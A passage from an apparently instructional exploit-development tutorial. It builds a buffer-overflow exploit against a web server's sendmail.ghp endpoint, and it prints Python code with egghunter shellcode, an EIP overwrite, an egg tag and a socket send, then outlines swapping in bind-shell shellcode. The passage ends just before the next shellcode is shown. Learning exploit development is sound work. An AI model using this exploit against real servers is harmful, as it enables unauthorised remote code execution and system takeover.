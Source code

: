 ``` ruby
Egghunter += "\x05\x5a\x74\xef\xb8\x72\x30\x30\x74\x89\xd7\xaf\x75"
Egghunter += "\xea\xaf\x75\xe7\xff\xe7"

Stage1=Egghunter + "\xcc"*(52-len(Egghunter))

crash = "A"*4072+EIP+"\x90"*16+Stage1
buffer  ="POST /sendmail.ghp HTTP/1.1 \r\n" 
buffer +="Email=" + crash + "&getPassword=Get+Password"

EFS = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
EFS.connect((sys.argv[1], 80))
EFS.send(buffer)
EFS.close()
```
 
Now lets launch the exploit. The result is very anticlimatic - Nothing happened! Our program does not crash, but it also does not look to be doing anything.
However if you open up the task manager, you will notice the CPU is running at 100% capacity. What is happening? Exactly what is supposed to be happening. Our EggHunter is looking through various pages of
memory looking for our "Egg", however as we have not included it anywhere it just keeps searching indefinitely.

To see the Egghunter working more clearly lets add our Egg somewhere. Modify the following lines as follows:

`Stage2 = "r00tr00t"+"\xcc"*4064`  
`crash = Stage2+EIP+"\x90"*16+Stage1`

Now, if we launch the exploit again we will see the CPU spike, but rather than running indefinitely we see our program suddenly pause. What happened?
If we take a look at the dissassembly and register windows we will see that EIP is pointing at our \xcc which acts as INT3 breakpoint. 
It has hit the breakpoint which if you notice we sent before our first stage shellcode. If we pay close attention to the eight bytes preceeding
the first INT3 instruction, we notice ```7230307472303074```, which is the hex equivalent of our r00tr00t signature! Our Egghunter has found the egg, and redirected execution flow to the bytes after our egg,
and executed out INT3 breakpoint which paused execution. From here on the only thing left to do is swap \xcc with some bind tcp shellcode and we will finally have access.

Before this, lets take a look at our second option for redirecting execution 

4.2 - Writing Shellcode

Just as it was the case with the Egg hunter, We will cover writing shellcode much more in different posts. For now we will focus on the minimum and simplest shellcode needed
to redirect execution flow. 

The way we are going to achieve this is to jump back into our stack. An msfvenom generated shell payload will be around 400 bytes, so if we place it right before our EIP address we will need to jump
back around ~400 bytes. Our Stage1 payload where we will write the code is at ESP, so we will use this address as our starting point. We are going to use the accumulator register (EAX) to perform our arithmetic by 
setting it equal to ESP, substracting 400 bytes and redirecting execution flow to it. Keeping our 52 byte restriction and our bad char restriction in mind, The resulting shellcode will be:
